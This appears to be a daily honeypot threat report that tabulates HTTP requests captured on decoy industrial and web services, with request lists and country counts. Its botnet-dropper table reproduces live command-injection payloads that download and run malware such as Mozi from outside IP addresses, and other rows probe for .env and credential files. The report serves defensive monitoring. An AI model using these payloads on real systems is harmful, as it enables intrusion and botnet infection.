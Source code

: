 ```yaml
---
title: "Report: 2025-03-27 "
date: 2025-03-27
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-27
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |
| DE               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code)

| remote_addr     | request                                                                                                                                                                                                                                        |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 175.107.1.221   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                          |
| 117.72.77.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 87.121.84.41    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                   |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;rm+-rf+/tmp/*;cd+/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                 |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.87.43.37%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                       |
| 222.133.54.222  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 84.195.192.75   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |

## request
List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                  |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------|
| 143 |                     5 | GET /static/css/chunk-fffbd800.3e1a8b72.css HTTP/1.1                                                     |
| 238 |                     2 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=busybox%20reboot%20&&%20reboot HTTP/1.1 |
| 280 |                     1 | GET /PbBh HTTP/1.1                                                                                       |
| 285 |                     1 | GET /ARVt HTTP/1.1                                                                                       |
| 307 |                     1 | \x00\x0E\x08\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                         |
| 308 |                     1 | \x00\x0E8\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                            |
| 332 |                     1 | GET /config.phpinfo HTTP/1.1                                                                             |
| 385 |                     1 | \x00\x0E\x08v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                           |
| 395 |                     1 | \x00\x0E8v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                              |
| 423 |                     1 | POST /cgi-bin/cgi_main.cgi HTTP/1.1                                                                      |
| 446 |                     1 | GET /socket.io/1/?t=1743038285763 HTTP/1.1                                                               |
| 475 |                     1 | GET /lib/.env HTTP/1.1                                                                                   |
| 501 |                     1 | GET /OdinHttpCall1743114175 HTTP/1.1                                                                     |
| 516 |                     1 | PORT 81, HEAD /robots.txt HTTP/1.0                                                                       |
| 524 |                     1 | GET /Nmap/folder/check1743111188 HTTP/1.1                                                                |
| 525 |                     1 | GET /NmapUpperCheck1743111188 HTTP/1.1                                                                   |
| 526 |                     1 | GET /nmaplowercheck1743111188 HTTP/1.1                                                                   |
| 531 |                     1 | GET /odinhttpcall1743050364 HTTP/1.1                                                                     |
| 548 |                     1 | GET /Odin/http/call1743114175 HTTP/1.1                                                                   |
| 557 |                     1 | GET /odinhttpcall1743114175 HTTP/1.1                                                                     |
| 558 |                     1 | GET /OdinHttpCall1743050364 HTTP/1.1                                                                     |
| 561 |                     1 | GET /stage/.env HTTP/1.1                                                                                 |
| 567 |                     1 | GET /Odin/http/call1743050364 HTTP/1.1                                                                   |
| 665 |                     1 | GET /credentials HTTP/1.1                                                                                |
| 687 |                     1 | GET /API/.env HTTP/1.1                                                                                   |
| 695 |                     1 | GET /skin/default_1/images/logo.png HTTP/1.1                                                             |
| 697 |                     1 | GET /image/lgbg.jpg HTTP/1.1                                                                             |
| 706 |                     1 | GET /nobody/favicon.ico HTTP/1.1                                                                         |
| 711 |                     1 | GET /Odin/http/call1743060215 HTTP/1.1                                                                   |
| 712 |                     1 | GET /OdinHttpCall1743060215 HTTP/1.1                                                                     |
| 713 |                     1 | GET /odinhttpcall1743060215 HTTP/1.1                                                                     |
| 716 |                     1 | GET /infos/ HTTP/1.1                                                                                     |

## country_iso_code
List of country names and number of requests received by IPs located in these countries

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   647 | NL                 |
|  1 |                   475 | FR                 |
|  2 |                   411 | US                 |
|  3 |                   408 | BG                 |
|  4 |                   231 | DE                 |
|  5 |                   161 | GB                 |
|  6 |                   161 | CN                 |
|  7 |                    92 | HK                 |
|  8 |                    82 | PL                 |
|  9 |                    54 | SG                 |
| 10 |                    50 | CH                 |
| 11 |                    47 | VN                 |
| 12 |                    35 | JP                 |
| 13 |                    26 | SC                 |
| 14 |                    25 | RU                 |
| 15 |                    17 | IN                 |
| 16 |                    13 | CA                 |
| 17 |                    12 | GE                 |
| 18 |                    11 | NG                 |
| 19 |                    11 | AU                 |
| 20 |                    10 | BE                 |
| 21 |                    10 | GH                 |
| 22 |                     9 | NO                 |
| 23 |                     8 | ID                 |
| 24 |                     7 | IR                 |
| 25 |                     7 | AZ                 |
| 26 |                     7 | LT                 |
| 27 |                     7 | PT                 |
| 28 |                     6 | TH                 |
| 29 |                     6 | ZA                 |
| 30 |                     5 | TR                 |
| 31 |                     4 | BR                 |
| 32 |                     3 | LV                 |
| 33 |                     3 | UA                 |
| 34 |                     3 | IE                 |
| 35 |                     2 | RO                 |
| 36 |                     2 | KR                 |
| 37 |                     1 | BD                 |
| 38 |                     1 | PH                 |
| 39 |                     1 | PK                 |
| 40 |                     1 | PE                 |
| 41 |                     1 | MD                 |
| 42 |                     1 | MC                 |
| 43 |                     1 | AE                 |
| 44 |                     1 | YE                 |
| 45 |                     1 | IT                 |
| 46 |                     1 | CO                 |

